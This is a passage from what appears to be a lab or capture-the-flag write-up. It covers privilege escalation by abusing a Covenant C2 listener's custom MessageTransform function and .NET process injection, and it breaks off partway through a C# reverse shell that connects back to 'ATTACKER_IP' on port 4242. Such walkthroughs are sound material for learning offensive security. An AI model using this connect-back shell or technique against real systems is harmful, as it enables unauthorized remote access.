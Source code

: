 Privilege Escalation
====================

Overview
--------

### Exploitation Path

For the PrivEsc we will be creating a custom covenant listener where we will use a custom profile with a modified MessageTransform function. This function is used to transform the data sent from the client to the server (For example base64 encode). This means that it is run both on the server side and the client side.


You would think that we can already run code but we can't since we don't have access to the full system namespace. For code execution, we can utilize a technique called [.NET Process Injection](https://malcomvetter.medium.com/net-process-injection-1a1af00359bc). After we have our listener ready we can create a grunt that we run on our machine (On Linux via wine) which when executed will prompt the server to run the malicious function thus giving us the shell.

Shell
-----

### Dotnet Project

The first thing we can do is create a shell. In .NET Process Injection we inject the shell as a DLL. To create a shell on our Linux machine we first need the Dotnet framework (In my case version 3.1). First, we create a new folder and a Dotnet project:

```bash
mkdir shell
cd ./shell
dotnet new console
```

### C# Shell

We can then open up the `Program.cs` file with our favorite text editor and enter the following shell (Overwriting everything):

```c#
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
    public class Program
    {
        static StreamWriter streamWriter;

        public static void Main(string[] args)
        {
            using(TcpClient client = new TcpClient("ATTACKER_IP", 4242))
            {
                using(Stream stream = client.GetStream())
                {
                    using(StreamReader rdr = new StreamReader(stream))
                    {
                        streamWriter = new StreamWriter(stream);
                        
```